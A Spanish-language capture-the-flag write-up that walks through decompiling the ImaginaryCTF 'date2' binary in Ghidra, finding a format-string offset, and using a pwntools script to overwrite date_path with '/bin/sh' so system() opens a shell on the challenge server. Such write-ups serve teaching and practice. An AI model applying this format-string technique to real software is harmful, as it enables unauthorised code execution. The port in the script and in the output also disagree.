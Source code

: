 ```yaml
---
layout: post
title: ImaginaryCTF date2 - GOT overwrite
author: GuxFiz
date: 2022-07-30
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, GOT overwrite, format string]
image: /assets/img/imaginaryCTF-date2/waifu.jpg
---
```

En este articulo resolveremos un ejercicio de explotacion binaria de la pagina ImaginaryCTF donde tenemos de sobreescribir la direccion de GOT de printf
{:.lead}

## Analizando el binario con Ghidra

Este ejercicio es muy similar al enterior del post de GOT overwrite y para practicar esta perfecto, solo que ahora no podemos ver el codigo fuente del binario, asi que lo que nos toca es analizarlo con ghidra

Lo primero que vamos a hacer es meter el binario a Ghidra la cual pueden descargar desde su repo oficial

```
https://github.com/NationalSecurityAgency/ghidra/releases
```
Despues en la seccion llamada ```Symbool tree``` desplegaremos la carpeta de ```functions``` y le damos click en main, como se ve en la imagen

![](/assets/img/imaginaryCTF-date2/ghidra1.png)

Esto nos arrojara del lado derecho de ghidra el codigo que trato de decompilar donde vemos todo esto:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(local_118,0x100,stdin);
  printf(local_118);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Viendo la declaracion de variables en la parte de arriba, osea estas: 

```
long in_FS_OFFSET;
char local_118 [264];
long local_10;
```
Vemos una en particular que se declara como ```char local_118 [264];```, esto es el buffer asi que vamos a renombrar la variable ```local_118``` a ```buffer```, ahora nuestro codigo se ve asi:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char buffer [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Acortanto mas el codigo para mostrar lo que nos interesa queda el codigo asi:

```c
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
```
Esto es sencillo de analizar lo que hace el binario es primeramente con ```puts``` mostrar el mensaje de ```What\'s today\'s date?```, despues con ```fgets(buffer,0x100,stdin);``` recibe un input que se guardara en ```buffer``` donde el valor maximo que podemos guardar es ```0x100```, esto pasandolo de hexadecimal a decimal nos da ```256```, despues hay dos ```puts``` que imprimen unas cadenas (nada relevante), y finalmente la funcion ```system``` manda a llamar a lo que tiene ```date_path```, y si en Ghidra le damos doble click sobre ```date_path``` vemos lo siguiente

![](/assets/img/imaginaryCTF-date2/ghidra2.png)

Aqui ya esta potente la cosa, por que se esta mandando a llamar al binario ```date``` desde la funcion ```system``` y se sabe que se esta llamando el binario date ya que la ruta es ```/usr/bin/date```, asi que lo que vamos a hacer es sobreescribir el valor GOT de ```date_path``` por ```/bin/sh``` y como se esta usando la funcion ```system``` nos debe de ejecutar una sh  

### Calculando el offset el buffer

De igual manera que el ejercicio anterior de GOT tenemos de encontrar el offset del buffer a travez de format string, asi que le pasaremos el binario algunas A y algunos format string ```AAAAAAAA %p %p %p %p %p %p %p %p```, cuando lo ejecutemos nos muestra esto

![](/assets/img/imaginaryCTF-date2/vuln1.png)

Si empezamos a contar desde ```0x7ffff7dfda63``` hasta donde empiezan nuestras "A" que es donde esta seleccionado en la imagen nos da como resultado 6, asi que ese es el offset el buffer

## Ejecutando el exploit

EL exploit usado es similar al del post anterior de GOT, lo que cambia es que nos estamos conectando remotamente a eth007.me.

```python

from pwn import *

context.binary = elf = ELF("./vuln")
r = remote("eth007.me", 42042)
r.sendline(fmtstr_payload(6, writes={elf.sym.date_path: u64(b"/bin/sh\x00")}))
r.interactive()
```
Si lo ejecutamos y listamos el contenido podemos ver la flag

```
[+] Opening connection to eth007.me on port 42069: Done
[*] '/home/omarh/Escritorio/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
no smh you are wrong the date is 
$ ls
flag.txt
```
Eso ha sido todo, gracias por leer ❤